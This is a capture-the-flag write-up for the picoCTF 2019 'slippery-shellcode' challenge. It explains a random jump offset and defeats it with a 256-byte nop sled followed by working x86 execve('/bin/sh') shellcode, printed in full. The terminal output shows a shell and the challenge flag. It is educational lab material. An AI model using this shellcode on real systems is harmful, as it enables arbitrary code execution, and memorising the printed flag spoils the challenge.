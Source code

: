 # picoCTF 2019 - slippery-shellcode
Author: PinkNoize

Binary Exploitation - 200

> This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1 on the shell server.

## TL;DR

This challenge provides a program that executes user-supplied shellcode starting at a "random" offset. Provide shellcode with a nop sled to solve.

# Writeup

This challenge is almost identical to [handy-shellcode](handyShellcode.md) with the only difference being that instead of the program jumping to the start of the supplied shellcode, its starts at a "random" offset in the shellcode.

```c
((void (*)())(buf+offset))();
```

We can see that the offset is calculated using a simple equation.

```c
int offset = (rand() % 256) + 1;
```

It starts by getting a "random" number from `rand()` and [modulos](https://en.wikipedia.org/wiki/Modulo_operation) it with 256, then adds 1. This means that 0 < `offset` <= 256. To avoid having the program jump to the middle of our shellcode, we can place it after 256 bytes which will mean that our shellcode will always start at the beginning. As code will still run in the buffer before our shellcode we have to put machine code that will essentially do nothing. The perfect instruction for the job, is `nop`. `Nop`, encoded as 0x90, does nothing except increment the instruction pointer (eip). We can put 256 `nop`s before our shellcode so that when the program jumps to a random place in the start of the buffer, it executes `nop`s until it eventually hits our shellcode. This is known as a [nop sled]().

```gas
nop
nop
nop <- jumps here
nop
.
.
.
nop
<shellcode> <- runs through the nops until it hits here
```
We will be using the same [shellcode](https://www.exploit-db.com/shellcodes/13670) as we used in [handy-shellcode](handyShellcode.md). We can create the payload now ...

```bash
user@pico-2019-shell1:/problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1$ python -c 'print b"\x90"*256 + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'
�����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������
                                                                                                                   [1�1�1Ұ
                                                                                                                         ̀�����/bin/sh
```

We can use the same technique as before to allow us to enter commands after.

```bash
PinkNoize@pico-2019-shell1:/problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1$ (python -c 'print b"\x90"*256 + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"';cat) | ./vuln
Enter your shellcode:
�����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������
                                                                                                                   [1�1�1Ұ
                                                                                                                         ̀�����/bin/sh
Thanks! Executing from a random location now...
id  
uid=19100(user) gid=8861(slippery-shellcode_6) groups=8861(slippery-shellcode_6),1002(competitors),19101(user)
cat flag.txt
picoCTF{sl1pp3ry_sh311c0d3_5a0fefb6}
```

We can now read the flag using the elevated permissions.

NOTE: The use of `rand()` in the program is entirely predictable as `srand()` is not used before it. This could eliminate the use of the nop sled by placing the shellcode at the predictable offset. 